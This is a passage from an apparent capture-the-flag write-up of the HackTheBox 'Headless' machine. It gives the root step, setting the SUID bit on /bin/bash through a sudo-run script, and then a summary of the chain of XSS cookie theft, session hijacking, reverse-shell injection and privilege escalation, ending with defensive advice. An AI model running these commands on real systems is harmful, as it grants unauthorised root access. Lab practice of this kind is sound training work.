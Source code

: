 Check current bash permissions:

```bash
ls -l /bin/bash
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bash_permissions_root_nok.png)

Create a malicious script that sets the SUID bit on `/bin/bash`:

```bash
chmod u+s /bin/bash
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/changing_permissions.png)

Run `syscheck` again:

```bash
sudo /usr/bin/syscheck
ls -l /bin/bash
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bash_permissions_root_ok.png)

Now `/bin/bash` has the SUID bit set, allowing us to spawn a root shell:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Identified `/support` and `/dashboard`.  
2. **XSS** → Injected script to steal the admin cookie.  
3. **Session Hijacking** → Used stolen cookie to access `/dashboard`.  
4. **Reverse Shell Injection** → Exploited the `date` parameter to gain user access.  
5. **Privilege Escalation** → Abused `syscheck` script and replaced `initdb.sh` to escalate to root.

---
## Defensive Recommendations

- Sanitize user input to prevent **XSS vulnerabilities**.  
- Store session tokens securely (e.g., HttpOnly cookies).  
- Validate and sanitize parameters before execution to prevent **command injection**.  
- Restrict and properly configure scripts executed with `sudo`.  
- Regularly audit custom scripts for privilege escalation risks.
